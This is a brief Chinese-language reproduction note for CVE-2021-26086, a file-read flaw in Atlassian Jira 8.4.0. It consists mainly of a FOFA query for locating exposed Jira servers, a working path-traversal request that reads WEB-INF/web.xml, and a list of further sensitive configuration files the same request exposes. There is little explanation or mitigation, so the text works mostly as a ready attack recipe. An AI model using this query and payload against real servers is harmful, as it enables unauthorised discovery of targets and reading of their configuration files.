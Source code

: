 # Atlassian Jira cfx 任意文件读取漏洞 CVE-2021-26086

## 漏洞描述

Atlassian Jira Server/Data Center 8.4.0 - Limited Remote File Read/Include

## 漏洞影响

```
Atlassian Jira Server/Data Center 8.4.0
```

## FOFA

```
app="ATLASSIAN-JIRA"
```

## 漏洞复现

登录页面

![](https://typora-notes-1308934770.cos.ap-beijing.myqcloud.com/202205241424642.png)

验证POC

```
/s/cfx/_/;/WEB-INF/web.xml
```

![](https://typora-notes-1308934770.cos.ap-beijing.myqcloud.com/202205241424545.png)

可读取敏感配置文件

```
WEB-INF/web.xml
WEB-INF/decorators.xml
WEB-INF/classes/seraph-config.xml
META-INF/maven/com.atlassian.jira/jira-webapp-dist/pom.properties
META-INF/maven/com.atlassian.jira/jira-webapp-dist/pom.xml
META-INF/maven/com.atlassian.jira/atlassian-jira-webapp/pom.xml
META-INF/maven/com.atlassian.jira/atlassian-jira-webapp/pom.properties
```

